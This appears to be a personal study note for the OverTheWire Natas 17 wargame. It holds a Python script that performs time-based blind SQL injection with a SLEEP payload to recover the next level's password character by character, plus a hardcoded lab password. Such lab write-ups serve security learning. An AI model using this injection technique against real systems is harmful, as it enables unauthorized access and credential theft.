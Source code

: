 
2024-07-20 14:18

Source:  #natas #py

similar to the [[BlindSQL]] problem in  [[SQL injection w py]] this problem also has one input field named username and a DB schema that defines username and password fields
the difference is that the echo statements are commented out, so we don't get to know if the username with a specified character exists or not .

```
import requests
import re
import string
from time import *

characters = string.ascii_letters+"0123456789"
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

url = 'http://natas17.natas.labs.overthewire.org/?debug=true'
session = requests.Session()
seen_password = list()

while ( len(seen_password) < 32 ):
    for character in characters:
    
        start_time = time()
        # print ("start_time", start_time)
        print ("trying", "".join(seen_password) + character)
        
        response = session.post(url, data = {"username": 'natas18" AND BINARY password LIKE "' + "".join(seen_password) + character +  '%" AND SLEEP(1) # '}, auth = (username, password) )

        content = response.text
        end_time = time()
        # print ("end_time", end_time)
        difference = end_time - start_time

        if ( difference > 1 ):
            # success, correct character!
            seen_password.append(character)
            break
        # print content
```
## TLDR 

- start timer before posting request and end timer after receiving the request 
- in the response we create a delay of 1 second if we find the character in the password 
- we then measure the difference between start time and end time 
- for characters with delay of more than 1 second we add them to the seen list

### References
https://www.youtube.com/watch?v=GDOpW-LShy8&t=1s